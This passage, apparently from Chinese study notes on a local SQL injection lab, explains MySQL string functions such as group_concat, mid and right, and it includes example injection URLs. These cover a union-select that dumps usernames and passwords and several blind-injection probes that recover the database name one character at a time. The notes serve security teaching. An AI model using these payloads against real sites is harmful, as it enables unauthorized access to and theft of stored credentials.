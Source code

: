 

2、char_length(s)\character_length(s)：返回字符串s的字符数在盲注中可以用到

`http://192.168.3.6/Less-5/?id=1' and char_length(database())=8 --+`



![image](004_第四周—数据库系统功能相关学习/Image_028-1567178982004.jpg)



3、concat(s1,s2,…,sn):合并s1,s2,…sn字符为一个字符

在注入，将多个字段的数据一列一次性返回，与concat_ws(0x7e,s1,s2,...,sn)一样。

不过联合注入一般是用group_concat(s1,s2,...,sn)函数，其将多个字段的所有函数一次性返回。

`http://192.168.3.6/Less-1/?id=0' union select 0,group_concat(username),group_concat(password)from users --+`



4、mid(s,n,len)\substr(s,n,len)\substring(s,n,len)：从s中的n位置开始截取长度为len的子字符串一般用于盲注。

`http://192.168.3.6/Less-5/?id=1' and ord(mid((database()),1,1))=ascii('s')--+`

![image](004_第四周—数据库系统功能相关学习/Image_031-1567178982004.jpg)

5、right(s,n)：返回字符串s的后n个字符一般用于盲注。

`http://192.168.3.6/Less-5/?id=1' and ord(right((database()),1))=ascii('y')--+`



![image](004_第四周—数据库系统功能相关学习/Image_033-1567178982005.jpg)
